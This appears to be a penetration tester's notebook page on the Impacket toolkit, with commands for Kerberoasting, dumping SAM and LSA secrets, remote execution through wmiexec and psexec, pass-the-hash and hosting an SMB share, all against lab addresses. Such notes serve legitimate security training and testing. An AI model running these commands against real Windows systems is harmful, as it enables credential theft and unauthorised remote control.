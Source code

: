 ```yaml
---
tags:
  - Exploitation
  - OperatingSystems
  - Windows
  - Tooling
  - Impacket
---
```

[Impacket](https://github.com/SecureAuthCorp/impacket) is a toolset built-in Python that provides us a way to interact with network protocols directly. Some of the most exciting tools we care about in Impacket deal with `psexec`, `smbclient`, `wmi`, Kerberos, and the ability to stand up an SMB server.

## Installation

```
python3 -m pipx install impacket
```

1. [Impacket Guide: SMB/MSRPC - Hacking Articles](https://www.hackingarticles.in/impacket-guide-smb-msrpc/)

## Usage
### Locating Credentials

```
sudo python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2021-01-21 11:07:03.723783
```

### Dump Credentials 

[impacket/examples/secretsdump.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

```shell-session
locate secretsdump 
```

```shell-session
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### Remote Access with Credentials


```
wmiexec.py 'administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125'
```

```
python psexec.py  active.htb/administrator:Ticketmaster1968@10.10.10.100
```

### SMB 

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB Guide]] 

1. Can use `psexec.py` to get reverse shell if write access to the entire system

#### Create SMB Server 

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

New versions of Windows block unauthenticated guest access, as we can see in the following command:

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
### SamRDump

```shell-session
samrdump.py 10.129.14.128
```

### RPCDump

[impacket/examples/rpcdump.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/rpcdump.py)

### WMI

```shell-session
wmiexec.py Cry0l1t3:"P455w0rD!"@10.129.201.248 "hostname"
```

## Pass the Hash

```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:

- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py), see [[1. SSH Tunnelling#Chisel]]
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

## Impacket Ticket Converter

[impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) 